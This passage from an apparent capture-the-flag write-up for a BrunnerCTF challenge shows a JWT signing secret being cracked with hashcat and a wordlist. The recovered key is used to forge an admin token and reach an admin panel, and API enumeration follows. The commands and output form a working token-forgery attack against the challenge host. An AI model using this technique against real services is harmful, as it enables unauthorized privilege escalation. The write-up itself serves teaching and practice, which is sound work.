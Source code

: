```
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImFkbWluIjpmYWxzZSwiZXhwIjoxNzU1OTA2MzA3fQ.4NQXKNXOjUuVvAU1LJKqIiWd3VxFJEUHVfj26doF1_M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
hashcat (v6.2.6) starting

(...)

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImFkbWluIjpmYWxzZSwiZXhwIjoxNzU1OTA2MzA3fQ.4NQXKNXOjUuVvAU1LJKqIiWd3VxFJEUHVfj26doF1_M:secretkey
```

Now that we found the key that is used to sign the jwt token, we are able to generate our own and alter the json in the token to change `"admin": false` to `"admin": true`. 

We did that by first making a json file `claim.json` with the altered json and a file called `key` which contains the value `secretkey` and then we use the **jwt** tool to generate a valid token as seen below:

```json
{
"user": "test",
"admin": true,
"exp": 1756052465
}
```

```
┌──(kali㉿kali)-[~/brunnerctf/challenges/Boot2Root/tickets-app-user]
└─$ jwt --sign claim.json --alg HS256 --key key
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU2MDI1OTkwLCJ1c2VyIjoidGVzdCJ9.GnwPwq2wTYKz_P_C2ZcKIoQ9Gb9HuaDrpscxunsPKfs
```

After successfully generating the jwt token we can swap it with our current one and gain access to the admin panel and a new search function is available for us to look into. When you search for an user, it reach out to an API endpoint `https://tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz/api/search?name=*` which lead us to do some basic enumeration of the website, we found this endpoint `https://tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz/api/docs/` that might could become handy later.

![API Docs](/assets/img/brunner/apidocs.png)
